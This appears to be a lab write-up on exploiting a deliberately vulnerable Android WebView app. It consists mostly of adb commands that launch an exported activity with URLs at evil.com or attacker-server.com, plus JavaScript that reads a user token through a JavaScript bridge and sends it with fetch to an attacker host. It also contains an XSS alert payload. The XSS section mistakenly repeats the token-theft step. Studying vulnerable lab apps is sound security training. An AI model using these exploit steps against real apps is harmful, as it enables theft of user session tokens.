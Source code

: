 #### Exploit Exported **SupportWebView**

```bash
adb shell am start -n com.tmh.vulnwebview/.SupportWebView --es support_url "https://evil.com"
```

***

**Exploiting SupportWebView for Token Theft**

The `WebAppInterface` exposes a method (`getUserToken`) that returns a token. An attacker can steal this token using JavaScript.

**Exploit JavaScript Code**:

```html
<script type="text/javascript">
    var token = Android.getUserToken();
    fetch('https://attacker-server.com/steal?token=' + token);
</script>
```

**Steps**:

1. Host the exploit script on a server (e.g., using Ngrok).
2.  Launch the `SupportWebView` activity with the malicious URL:

    ```bash
    adb shell am start -n com.tmh.vulnwebview/.SupportWebView --es support_url "https://attacker-server.com/exploit.html"
    ```
3. The token will be sent to the attacker's server.

***

#### Exploiting SupportWebView for Cross Site Scripting XSS

```html
<script type="text/javascript">
    alert("0x88");
</script>
```

**Steps**:

1. Host the exploit script on a server (e.g., using Ngrok).
2.  Launch the `SupportWebView` activity with the malicious URL:

    ```bash
    adb shell am start -n com.tmh.vulnwebview/.SupportWebView --es support_url "https://attacker-server.com/exploit.html"
    ```
3. The token will be sent to the attacker's server.

***

**Exploiting RegistrationWebView for Local File Exfiltration**

<figure><img src="../../.gitbook/assets/image (300).png" alt=""><figcaption></figcaption></figure>
